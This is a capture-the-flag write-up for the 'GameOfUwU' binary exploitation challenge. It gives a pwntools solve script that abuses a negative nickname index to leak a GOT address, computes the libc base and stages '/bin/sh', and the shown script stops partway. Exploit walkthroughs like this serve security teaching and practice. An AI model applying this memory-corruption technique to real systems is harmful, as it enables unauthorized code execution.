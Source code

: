 # GameOfUwU 
Author: a1668k  
Binary  
Description  
Solves 2  

Do you want to Play a game?? (❍ᴥ❍ʋ) Let play "Game of UwU"!  

GameOfUwU  

`nc chal.firebird.sh 35029`

Since the server binary is unable to use gdb to debug because of system("clear"), the king of UwU is so nice that gives you a version for you to debug  

GameOfUwU_noclear  

At least, my solve script works on both version (つ´ω`)つ  

## Full solve script

```py
from pwn import * 
import time 
binary = ("./GameOfUwU_patched")

p = process(binary)
p = remote("chal.firebird.sh", 35029)
libc = ELF('./libc.so.6')

elf = ELF(binary)
s = 'b*edit_nickname+127'
#gdb.attach(p, s)
p.sendline(b'1') # press any key to continue

#context.log_level = 'debug'
# overwriting FireUwU

p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')

p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")
p.sendline(b'1')
p.sendlineafter(b"What is its new nickname?", b'/bin/sh')


p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')
p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")

p.sendline(b'-2')
p.recvuntil(b"  Please get a new name to ")

# parse the leaked address to int, hex and potentially further conver to other formats 
GOT_leak = int.from_bytes(p.recvuntil(b"!", drop = True), 'little')
libc.address = GOT_leak - libc.sym['rand'] # calculate the libc base
print(hex(GOT_leak)) # debugging 
print(hex(libc.address)) # debugging 
#print(hex(libc.sym['rand']))


# preserving the leaked address, for a second entry to overwrite fgets (success)
preserved = GOT_leak.to_bytes(6, 'little')
p.sendlineafter(b"What is its new nickname?", preserved)

```
